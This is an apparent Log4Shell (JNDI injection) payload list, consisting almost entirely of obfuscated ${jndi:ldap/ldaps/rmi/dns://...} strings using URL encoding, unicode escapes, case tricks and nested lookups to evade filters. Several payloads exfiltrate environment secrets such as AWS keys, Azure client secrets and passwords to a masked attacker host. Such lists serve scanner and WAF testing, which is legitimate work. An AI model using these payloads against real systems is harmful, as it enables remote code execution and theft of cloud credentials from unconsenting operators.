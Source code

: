 %24%7bjnd%24%7bsys:SYS_NAME:-i%7d:dns:/****/z%7d
%24%7bj%24%7b%24%7b:-l%7d%24%7b:-o%7d%24%7b:-w%7d%24%7b:-e%7d%24%7b:-r%7d:n%7ddi:ldap://****/z%7d
%24%7bj%24%7b%24%7b:-l%7d%24%7b:-o%7d%24%7b:-w%7d%24%7b:-e%7d%24%7b:-r%7d:n%7ddi:ldaps://****/z%7d
%24%7bj%24%7b%24%7b:-l%7d%24%7b:-o%7d%24%7b:-w%7d%24%7b:-e%7d%24%7b:-r%7d:n%7ddi:rmi://****/z%7d
%24%7bj%24%7b%24%7b:-l%7d%24%7b:-o%7d%24%7b:-w%7d%24%7b:-e%7d%24%7b:-r%7d:n%7ddi:dns://****/z%7d
%24%7b%24%7bdate:'j'%7d%24%7bdate:'n'%7d%24%7bdate:'d'%7d%24%7bdate:'i'%7d:%24%7bdate:'l'%7d%24%7bdate:'d'%7d%24%7bdate:'a'%7d%24%7bdate:'p'%7d%24%7bdate:'s'%7d://****/z%7d
%24%7b%24%7bdate:'j'%7d%24%7bdate:'n'%7d%24%7bdate:'d'%7d%24%7bdate:'i'%7d:%24%7bdate:'r'%7d%24%7bdate:'m'%7d%24%7bdate:'i'%7d://****/z%7d
%24%7b%24%7bdate:'j'%7d%24%7bdate:'n'%7d%24%7bdate:'d'%7d%24%7bdate:'i'%7d:%24%7bdate:'d'%7d%24%7bdate:'n'%7d%24%7bdate:'s'%7d://****/z%7d
%24%7b%24%7bwhat:ever:-j%7d%24%7bsome:thing:-n%7d%24%7bother:thing:-d%7d%24%7band:last:-i%7d:ldaps://****/z%7d
%24%7b%24%7bwhat:ever:-j%7d%24%7bsome:thing:-n%7d%24%7bother:thing:-d%7d%24%7band:last:-i%7d:rmi://****/z%7d
%24%7b%24%7bwhat:ever:-j%7d%24%7bsome:thing:-n%7d%24%7bother:thing:-d%7d%24%7band:last:-i%7d:dns://****/z%7d
%24%7b\u006a\u006e\u0064\u0069:ldap://****/z%7d
%24%7b\u006a\u006e\u0064\u0069:ldaps://****/z%7d
%24%7b\u006a\u006e\u0064\u0069:rmi://****/z%7d
%24%7b\u006a\u006e\u0064\u0069:dns://****/z%7d
%24%7bjndi:ldap://127.0.0.1#****/z%7d
%24%7bjndi:ldaps://127.0.0.1#****/z%7d
%24%7bjndi:rmi://127.0.0.1#****/z%7d
%24%7bjndi:dns://127.0.0.1#****/z%7d
${jNdi:ldAp://****/Z}
${jnDI:ldApS://****}
${JNDI:Rmi://****}
${JnDi:DNs://****}
${${EnV:ENV_NaME:-j}nDI${EnV:EnV_namE:-:}${ENV:EnV_nAME:-L}Dap${enV:Env_naMe:-:}//****/Z}
${${Env:Env_namE:-j}NDi${eNV:Env_nAMe:-:}${EnV:Env_NamE:-L}DApS${ENv:eNv_name:-:}//****/Z}
${${eNv:ENV_Name:-j}NDi${eNv:eNv_nAmE:-:}${EnV:env_namE:-r}Mi${eNv:Env_namE:-:}//****/z}
${${Env:ENv_nAmE:-J}NdI${eNv:eNv_name:-:}${EnV:EnV_nAmE:-D}Ns${eNV:env_Name:-:}//****/Z}
${JnDi:LDap://****/Z?LeAK=${env:AwS_acceSs_key_Id:-NO_eXIsTS}}
${Jndi:LdAP://****/Z?LeAK=${ENv:AWS_SecREt_AccESS_KEy:-nO_ExIsTS}}
${jNdi:LdAp://****/Z?leAK=${ENV:AMazon_AWS_accESs_keY_Id:-no_EXistS}}
${jndi:LDAP://****/z?LEAK=${enV:amazON_AWs_seCrET_ACCEss_KEy:-No_eXIstS}}
${jnDI:lDaP://****/z?lEAK=${eNV:azUre_clIent_ID:-nO_exists}}
${jndI:LDAP://****/z?LeAK=${enV:AZURe_clIent_secRet:-nO_EXIstS}}
${Jndi:LDAP://****/Z?LEaK=${eNV:AzuRe_userNaMe:-NO_ExisTS}}
${jNDI:LDaP://****/Z?LEAk=${enV:AzuRe_PassworD:-no_EXisTS}}
${jNDi:LDaP://****/Z?LEak=${eNV:MSi_eNdPOInT:-no_eXIsTS}}
${jNDi:LDaP://****/Z?LeaK=${Env:msi_seCrET:-no_eXIsTS}}
${${lOWeR:j}NdI:${lOwER:l}${LoweR:d}A${LOWER:P}://****/z}
${${uPPeR:j}nDi:${upper:l}${upPER:D}A${LOweR:P}://****/z}
${${::-J}${::-N}${::-D}${::-i}:${::-l}${::-D}${::-A}${::-p}://****/z}
${jnd${syS:SYs_NAme:-i}:lDAP:/****/Z}
${J${${:-l}${:-O}${:-w}${:-E}${:-R}:N}Di:LdAp://****/z}
${${DAte:'j'}${DatE:'N'}${dAtE:'d'}${DAtE:'i'}:${dAtE:'l'}${DATe:'d'}${DaTe:'a'}${dAte:'p'}://****/Z}
${${whAT:ever:-j}${SoMe:Thing:-n}${oTHER:tHing:-D}${And:LaST:-I}:LDAp://****/Z}
${${LOWEr:J}nDi:${lOWER:l}${lowEr:d}a${lOWeR:p}${lOWEr:S}://****/Z}
${${uPpeR:j}NDi:${UpPeR:L}${uPPEr:d}A${LOwEr:P}${UppeR:S}://****/Z}
${${LoWER:J}nDI:${Lower:r}${LoWer:m}a${LoWER:I}://****/Z}
${${uPPer:J}nDi:${Upper:r}${upPeR:m}A${lowER:I}://****/Z}
${${LowER:j}ndi:${lowER:d}${lOWER:n}A${lOWer:s}://****/Z}
${${Upper:J}ndi:${upPeR:D}${uppEr:N}a${lOwer:s}://****/z}
${${::-j}${::-n}${::-D}${::-I}:${::-L}${::-D}${::-A}${::-P}${::-S}://****/z}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-M}${::-I}://****/z}
${${::-j}${::-n}${::-d}${::-i}:${::-D}${::-N}${::-s}://****/Z}
${Jnd${sYS:sYS_naME:-I}:lDaP:/****/z}
${JND${sYS:SYs_name:-i}:lDaps:/****/Z}
${jnD${sYS:Sys_NAmE:-I}:rmi:/****/z}
${JNd${sys:sYS_NAMe:-i}:Dns:/****/z}
